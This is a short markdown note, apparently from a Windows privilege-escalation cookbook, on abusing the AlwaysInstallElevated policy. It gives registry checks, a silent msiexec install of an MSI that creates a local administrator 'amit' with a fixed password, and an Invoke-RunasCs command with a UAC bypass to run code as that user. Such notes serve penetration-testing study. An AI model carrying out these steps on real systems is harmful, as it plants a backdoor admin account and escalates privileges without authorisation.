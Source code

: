 # Leveraging AlwaysInstallElevated
Source: https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/AlwaysInstallElevated.md

Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated`


Exploit: 
- `msiexec /quiet /qn /i newlocaladmin.msi`

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) to get code execution as the newly created administrator user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
